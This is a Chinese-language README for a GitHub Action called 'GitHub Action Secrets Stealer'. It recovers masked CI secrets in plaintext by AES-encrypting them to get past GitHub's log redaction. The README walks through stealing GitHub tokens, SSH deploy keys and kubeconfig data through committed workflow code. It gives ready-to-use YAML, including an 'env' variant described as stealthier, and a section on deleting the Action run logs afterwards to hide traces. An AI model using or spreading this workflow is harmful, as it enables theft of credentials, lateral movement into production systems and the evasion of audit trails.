









# GitHub Action Secrets Stealer

# 一、这是什么

GitHub Action安全工具，可以将Action Secrets还原拿到明文，用于证明Secrets并不是绝对的安全。

# 二、应用场景

## 场景一： 渗透测试提权突破口：CI需要GitHub访问权限

### 理论基础：CI权限未做最小化控制

有些运维给GitHub Action配置的CI权限并没有做最小化控制又过于相信GitHub Action的Secrets的安全性，这就导致如果能拿到CI中配置的权限的话就能达到提权的效果。

### 提权前提：能够修改代码

提权的前提是已经有一定的权限，这里是需要先有提交代码的权限，包括直接提交，或者通过提PR然后想办法被合进去之类的，只要能达到修改目的就可以，在这个基础上才有后续操作。

### 如何提

比如CI里需要GitHub的访问权限，运维直接把自己的GitHub账号生成一个Token配置上去了，如果能够拿到这个Token的话，就相当于直接获取了整个组织root权限（因为一般运维是组织管理员权限），
或者至少是整个组织的读权限，要给读权限的就得给所有仓库的读权限，因为GitHub Token目前还没有做到仓库级别的权限控制，但可以设置Token为只读，拿到的Token权限有多大主要看运气。

### Token的后续利用

拿到GitHub Token之后的后续利用，可以参考本人这个项目：

```text
TODO 待开源 
```

## 场景二： 渗透测试提权突破口：CI需要部署

### 部署到ECS

比如部署到ECS，一般会需要ssh公钥登录，把公钥配置为Secrets，如果能够拿到这个ssh的Secrets，就能够直接登录到那台机器中，
如果部署的时候没有控制权限单独创建一个账号而是使用root账号的话，则能够直接拿到那台机器的root权限完全控制。

比如这个Action：

```text
https://github.com/marketplace/actions/ssh-deploy
```

的使用方式：

```yaml
  - name: Deploy to Staging server
    uses: easingthemes/ssh-deploy@main
    env:
      SSH_PRIVATE_KEY: ${{ secrets.SERVER_SSH_KEY }}
      ARGS: "-rltgoDzvO"
      SOURCE: "dist/"
      REMOTE_HOST: ${{ secrets.REMOTE_HOST }}
      REMOTE_USER: ${{ secrets.REMOTE_USER }}
      TARGET: ${{ secrets.REMOTE_TARGET }}
      EXCLUDE: "/dist/, /node_modules/"
```

如果能够把`${{ secrets.SERVER_SSH_KEY }}`、`${{ secrets.REMOTE_HOST }}`、`${{ secrets.REMOTE_USER }}`
、`${{ secrets.REMOTE_TARGET }}`这几个参数拿到就可以登录上去了。

### 部署到k8s

比如部署到k8s集群，一般会借助其它action来部署，但是k8s的连接信息是需要传进去的，比如把k8s的连接信息配置成Secrets传进去，来看一个实际的例子， 在Github Action
Marketplace有一个k8s部署的action：

```text
https://github.com/marketplace/actions/kubectl-helm
```

它的使用方式：

```yaml
  - name: deploy to cluster
    uses: wahyd4/kubectl-helm-action@master
    env:
      KUBE_CONFIG_DATA: ${{ secrets.KUBE_CONFIG_DATA }}
```

如果能把`${{ secrets.KUBE_CONFIG_DATA }}`偷到的话，就能够连接到这个k8s集群中，如果运维偷懒，对于测试环境和生产环境都是使用的同一个Secrets的话，那么就是一个从开发测试环境
横移到生产运行环境的突破口，生产环境的k8s集群将沦陷，configMap中配置的数据库、Redis、Kafka之类的基础设施基本也拿下了...

比如我作为一个普通开发，是没有生产环境的k8s集群的权限的，从安全角度考虑我也不该有这个权限，但是我可以写代码有代码提交权限， 那么就可以通过这种方式进入生产环境的集群给年轻的运维小哥来点惊喜.... :stuck_out_tongue:

### 其它

前面两种部署方式只是谈谈思路给个侵入路径的示例，其它部署方式请自行探索更多玩法。

## 场景三：Secrets还原

secrets一旦配置上就再也无法查看只能更新，但有时候我们就是想查看一下， 比如忘记GitHub Secrets想知道是啥的时候， 就可以利用此action来查看Secrets的明文。

写到此处，尘封的记忆突然开始攻击我，笔者想起若干年前做过的一个日志分析的系统，笔者从kafka取到日志数据观察的时候发现日志里有很多用户名和明文密码， 大吃一斤赶紧找后台开发的同事询问，
原来添加Spring日志切面的时候没有对敏感接口屏蔽或脱敏，前端把明文密码传给后端，后端先打了日志，然后哈希去跟库里比对，就实现了神奇的哈希密码低成本还原为明文...也许此工具也有异曲同工之妙，啊哈哈哈 ：）

## 场景四：安全研究

安全研究测试： 辅助拿Action的环境验证一些想法之类的...

GitHub是有自己的漏洞赏金平台的：

```text
https://bounty.github.com/
```

感觉Action应该是有洞的...只是我太菜挖不到...

# 三、使用方式

一个测试通过的Action的例子：
```text
https://github.com/CC11001100/github-action-secrets-stealer-test/blob/main/.github/workflows/test.yml
```

比如现在有一个名为`GH_ACCESS_TOKEN`的secrets，内容是啥我们不知道，而且一旦配置上之后就再也查看不了了：

这个secrets在Action中使用的时候是使用：

```text
${{ secrets.GH_ACCESS_TOKEN }}
``` 

来访问的，其它类似的访问形式都可以用这种方式拿出来。

在GitHub Action中引入这个仓库的Action，然后在input_values中将想查看的Secrets放在这里，比如这里就是：

```yaml
      # 第一种方式：
      # 像这样把action添加到流程中
      - name: GitHub Action Stealer 001
        uses: CC11001100/github-action-secrets-stealer@v1.0.1
        with:
          input_values: |
            - ${{ secrets.GH_ACCESS_TOKEN }}
```

或者：
```yaml
      # 第二种方式：
      # 使用环境变量传入更隐蔽
      - name: GitHub Action Stealer 002
        uses: CC11001100/github-action-secrets-stealer@v1.0.1
        env:
          GH_ACCESS_TOKEN: ${{ secrets.GH_ACCESS_TOKEN }}
```

因为直接在控制台上打印Secrets会被检测出来并做打码处理，即使是一层的base64也会被检测出来打码，所以这里默认是采用的AES256加密后打印出来，key和iv是随机生成的：  

  

复制文本出来：

```text
{
    "key": "KeGDynDiFJYZncdW",
    "iv": "TXwH8XBiR7ZDjrEb",
    "payload": "R3QFIxViAJHgX5za18cE...打码...Ff1RZ22j9wFLSaARAm4RDUAocQY="
}
```

上面的json的key是aes的key，iv是aes的cbc模式的iv，payload是加密后的内容，到这个网页在线解密：

```text
http://tool.chacuo.net/cryptaes
```

设置如图：



解码后的内容分为两部分：



env是执行action时的所有环境变量，里可能会面有一些环境配置和敏感信息：





但是action执行结束这些信息基本失去价值，还有一部分就是传进去的内容：



这个就是在前面配置的名为GH_ACCESS_TOKEN的secrets，可以看到拿到原始的内容了，其它的secrets方式类似。

# 四、痕迹清理

拿到需要的信息之后记得将Action运行记录删除：



确认删除：




